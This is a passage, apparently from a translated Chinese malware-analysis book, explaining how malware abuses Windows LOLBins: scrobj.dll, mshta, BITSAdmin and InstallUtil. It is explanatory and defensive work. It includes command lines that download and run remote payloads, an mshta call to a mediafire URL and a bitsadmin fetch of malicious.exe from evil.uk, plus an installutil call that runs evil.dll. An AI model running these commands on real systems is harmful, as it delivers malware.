 这一技术能够实现其功能，是因为 *scrobj.dll* 文件中的 <samp class="SANS_TheSansMonoCd_W5Regular_11">DllInstall</samp> 函数接受一个 URL，并盲目下载并执行脚本文件。你可以在 MITRE 网络分析库（CAR）中了解更多关于 Squiblydoo 技术的信息，网址为 [*https://<wbr>car<wbr>.mitre<wbr>.org<wbr>/analytics<wbr>/CAR<wbr>-2019<wbr>-04<wbr>-003<wbr>/*](https://car.mitre.org/analytics/CAR-2019-04-003/)。

##### <samp class="SANS_Futura_Std_Bold_Condensed_B_11">Mshta</samp>

Mshta 用于执行 *HTML 应用程序*（.*hta*）文件，这些脚本文件可以包含 HTML、VBScript、JavaScript 或其他类型的脚本。HTA 文件通过 HTML 提供图形用户界面，脚本代码则提供应用程序的逻辑。恶意软件通常使用 *mshta.exe* 从远程服务器下载并执行文件，以下是一个来自恶意微软 Excel 文件的示例：

```
C:\> mshta.exe https://www.mediafire.com/file/bcl9/2.htm/file
```

一个特定的恶意软件样本（<samp class="SANS_TheSansMonoCd_W5Regular_11">SHA256: 03f03a3f36c87d8cb7cd5f8ce6e324917253eeca4f3ea164f35242146e26e2b1</samp>）通过 *mshta.exe* 调用 *rundll32.exe*，展示了某些攻击如何将多个 LOLBin 链接在一起。图 15-4 显示了来自 Joe Sandbox 的报告（* [`www.joesandbox.com/analysis/670279`](https://www.joesandbox.com/analysis/670279) *）。

![](img/fig15-4.jpg)

<samp class="SANS_Futura_Std_Book_Oblique_I_11">图 15-4：Joe Sandbox 分析报告中显示的 LOLBin 攻击链</samp>

在此沙箱分析中，您可以看到一个 Microsoft Excel 文档启动 *rundll32.exe*（可能通过嵌入的 VBA 代码或类似技术），然后调用 *mshta.exe* 从 *mediafire.net* 下载并执行文件。

##### <samp class="SANS_Futura_Std_Bold_Condensed_B_11">BITSAdmin</samp>

*背景智能传输服务 (BITS)* 用于将文件传输到 Web 服务器和文件共享之间。BITS 可以通过“作业”进行配置，自动管理文件传输开销，监控网络使用、延迟和文件大小，并允许暂停和恢复文件传输。BITSAdmin 应用程序，*bitsadmin.exe*，用于管理 BITS。

恶意软件可以滥用 BITS 从远程服务器下载并执行有效载荷。以下命令将创建一个名为 <samp class="SANS_TheSansMonoCd_W5Regular_11">myjob</samp> 的新文件传输作业，并将其设置为高优先级，然后从 *evil.uk* 域下载 *malicious.exe* 文件，并将其保存在 *C:\Users\AppData\Roaming* 目录中：

```
C:\> bitsadmin.exe /transfer myjob /download /priority high
http://evil.uk/malicious.exe C:\Users\AppData\Roaming\malicious.exe
```

##### <samp class="SANS_Futura_Std_Bold_Condensed_B_11">InstallUtil</samp>

*InstallUtil* 是 Windows .NET 框架的一个组件，操作系统和其他应用程序用它来安装服务器资源和服务。恶意软件也可以利用它来调用可执行文件和 DLL 文件。以下命令在 *installutil.exe* 的上下文中执行 *evil.dll*：

```
C:\> C:\Windows\Microsoft.NET\Framework\`version`\installutil.exe /logfile=
/LogToConsole=false /U evil.dll
```

主机上可能安装了多个版本的 .NET，因此此处的 <samp class="SANS_TheSansMonoCd_W5Regular_Italic_I_11">version</samp> 会替换为特定版本，例如 <samp class="SANS_TheSansMonoCd_W5Regular_11">v4.0.30319</samp>。与许多 LOLBin 一样，*installutil.exe* 常常被系统管理员出于合法目的使用，因此很难防止这种未经授权的使用，特别是当这意味着限制管理员的工作方式时。最好限制可以执行此工具的用户组，或者（至少）监控用户组对该工具的使用并定期审查日志。
